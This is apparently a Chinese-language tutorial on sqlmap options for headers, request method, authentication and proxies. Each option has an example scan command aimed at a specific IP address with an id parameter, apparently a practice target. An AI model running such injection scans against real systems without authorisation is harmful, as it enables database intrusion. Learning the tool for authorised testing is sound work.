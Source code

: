 

##### **—random-agent：使用随机的浏览器代理头**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —random-agent



##### **—host ：指定主机头**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —host=”aaaaa”



##### **—referer=”aaaaaa” ：指定referer头**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —referer=”**aaaaaa”**



##### **—headers ：有些网站需要特定的头来身份验证**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —headers=”host:aaaa\nUser-Agent:bbbb”



##### **—method ：指定请求方式，还有POST**



> python sqlmap.py -u **“**http://59.63.200.79:8003/?id=1**“** —method=GET



##### **—auth-type ， —auth-cred：身份认证，还有Digest、NTLM**



> python sqlmap.py -u**“**http://59.63.200.79:8003/?id=1**“** —auth-type Basic —auth-cred “user:pass**”**



##### **—auth-file=”ca.PEM” ：使用私钥证书去进行身份认证，还有个参数—auth-cert，暂时不知道怎么用，没遇到过**

**
**

##### **—proxy ：使用代理去扫描目标，代理软件占用的端口在8080**



> python sqlmap.py -u“http://59.63.200.79:8003/?id=1**“** —proxy=”http://127.0.0.1:8080/**“**



##### **—proxy-cred：使用代理时的账号和密码**


